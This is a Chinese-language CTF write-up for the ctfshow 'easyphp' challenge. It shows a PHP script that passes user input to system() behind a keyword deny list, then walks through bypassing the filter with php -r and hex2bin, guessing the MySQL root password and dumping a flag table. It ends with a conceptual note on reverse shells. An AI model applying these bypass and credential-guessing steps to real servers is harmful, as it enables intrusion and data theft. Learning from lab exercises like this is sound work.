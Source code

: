 # easyphp

原题:

[ctfshow原题](https://ctf.show/challenges#simple_php-4329)

题解:

[某csdn博客](https://blog.csdn.net/m0_74428315/article/details/139050718?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522172235917416800226540698%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=172235917416800226540698&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-1-139050718-null-null.142^v100^pc_search_result_base4&utm_term=siscnsimple_php&spm=1018.2226.3001.4187)

```php
<?php
ini_set('open_basedir', '/var/www/html/');
error_reporting(0);

if(isset($_POST['cmd'])){
    $cmd = escapeshellcmd($_POST['cmd']); 
     if (!preg_match('/ls|dir|nl|nc|cat|tail|more|flag|sh|cut|awk|strings|od|curl|ping|\*|sort|ch|zip|mod|sl|find|sed|cp|mv|ty|grep|fd|df|sudo|more|cc|tac|less|head|\.|{|}|tar|zip|gcc|uniq|vi|vim|file|xxd|base64|date|bash|env|\?|wget|\'|\"|id|whoami/i', $cmd)) {
         system($cmd);
}
}
show_source(__FILE__);
?>
```

## ban
引号 ""
base64, vim, file

escapeshellcmd() 函数会对输入的字符串进行转义，使得其中可能被解释为命令行参数或操作符的字符被正确地处理，从而降低命令注入的风险。
例如，如果用户输入的 cmd 值为 ;rm -rf / 这样的恶意命令，经过 escapeshellcmd() 处理后，系统命令执行函数不会将其视为可执行的恶意命令，而是将其作为普通字符串处理。

[另一篇题解](https://z3r4y.blog.csdn.net/article/details/139052904?spm=1001.2101.3001.6650.1&utm_medium=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ECtr-1-139052904-blog-139050718.235%5Ev43%5Epc_blog_bottom_relevance_base7&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2%7Edefault%7ECTRLIST%7ECtr-1-139052904-blog-139050718.235%5Ev43%5Epc_blog_bottom_relevance_base7&utm_relevant_index=2)

用php -r进行php代码执行

因为ban了引号，考虑hex2bin，将数字转为字符串

php -r eval(hex2bin(16进制));

## 尝试

cmd=php -r 22706870696e666f28293b22(echo phpinfo();的十六进制编码)

结果:
成功出现回显
Deprecated: Directive 'track_errors' is deprecated in Unknown on line 0 Parse error: syntax error, unexpected 'f28293b22' (T_STRING) in Command line code on line 1 <

substr(_16进制,1) 从第二个字符开始提取字符串

hex2bin(substr(_16进制,1)) 十六进制转二进制

```shell
echo `ls /`
```

发现不存在flag的提示，考虑数据库（经验所得）

那么就得去想办法知道数据库的username和password

那么一般这种情况去尝试弱口令（有些数据库或者后台直接弱口令就出来了）

尝试root 123

注意引号和分号的细节; php语句要加";"

```bash
cmd=php -r echo `mysql -u root -p'root' -e 'show databases;'`;
```

结果:
Database
PHP_CMS
information_schema
mysql
performance_schema
test

```bash
cmd=php -r echo `mysql -u root -p'root' -e 'use PHP_CMS;SHOW TABLES;'`;
```

例如，在 MySQL 的 mysql 命令行客户端中，您可以使用 mysql -e "SELECT * FROM your_table;" 来直接执行指定的 SQL 语句并显示结果。

```bash
echo `mysql -u root -p'root' -e 'use PHP_CMS;select * from F1ag_Se3Re7;'`;
```

## 疑问?

为什么要十六进制转二进制? 答: base64禁了, 所以考虑十六进制; 

为什么要substr()?截断绕过?

## 待学习 反弹shell

[反弹shell](https://blog.csdn.net/weixin_44288604/article/details/111740527)

什么是反弹shell
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。
